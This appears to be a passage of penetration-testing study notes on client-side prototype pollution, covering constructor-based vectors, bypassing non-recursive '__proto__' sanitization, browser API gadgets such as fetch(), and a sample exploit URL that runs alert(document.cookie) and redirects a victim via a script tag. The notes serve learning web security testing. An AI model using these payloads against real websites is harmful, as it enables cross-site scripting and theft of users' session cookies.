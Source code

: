```sh
# On Console we have an error, click on it, set a breakpoint and refresh the web
# We see number 1 appended like this data:,alert();//1 so we use this payload
alert()- # in reality is alert()-1 which makes NaN and then the second part (1) of the || is true but alert() is executed

################ Prototype pollution via the constructor
Unless its prototype is set to null, every JavaScript object has a constructor property.
# For example, you can create a new object either using literal syntax or by invoking the Object() constructor:
let myObjectLiteral = {};
let myObject = new Object();
# You can then reference the Object() constructor via the built-in constructor property:
myObjectLiteral.constructor            // function Object(){...}
myObject.constructor                   // function Object(){...}
# Each constructor function has a prototype property. As a result, you can also access any object's prototype as follows:
myObject.constructor.prototype        // Object.prototype
myString.constructor.prototype        // String.prototype
myArray.constructor.prototype         // Array.prototype
# As myObject.constructor.prototype is equivalent to myObject.__proto__, this provides an alternative vector for prototype pollution. 

############### Bypassing flawed key sanitization
# Websites prevent prototype pollution by sanitizing property keys, but sometimes they fail sanitizing recursively:
vulnerable-website.com/?__pro__proto__to__.gadget=payload
# If the sanitization process just strips the string __proto__ without repeating this process more than once
vulnerable-website.com/?__proto__.gadget=payload

############### Prototype pollution in external libraries
DOM Invader is recommended in this case. It is much quicker to detect some tricky vulnerabilities.
# EXAMPLE: Deliver exploit to a victim
/#__proto__[hitCallback]=alert%28document.cookie%29
<script>
location="https://xxxx"
</script>
```
{% endcode %}

## Prototype pollution via browser APIs

There are a number of widespread prototype pollution gadgets in the JavaScript APIs commonly provided in browsers.

{% code overflow="wrap" fullWidth="true" %}
```sh
############## Prototype pollution via fetch()
Fetch API provides a simple way to trigger HTTP requests using JavaScript. The fetch() method accepts two arguments:
    The URL to which you want to send the request.
    An options object that lets you to control parts of the request, such as the method, headers, body parameters, and so on.
fetch('https://normal-website.com/my-account/change-email', {
    method: 'POST',
    body: 'user=carlos&email=carlos%40ginandjuice.shop'
})
# We left some options undefined. If an attacker can find a suitable source -> pollute Object.prototype w/ own headers
# For example, the following code is potentially vulnerable to DOM XSS via prototype pollution: 
fetch('/my-products.json',{method:"GET"})
    .then((response) => response.json())
    .then((data) => {
```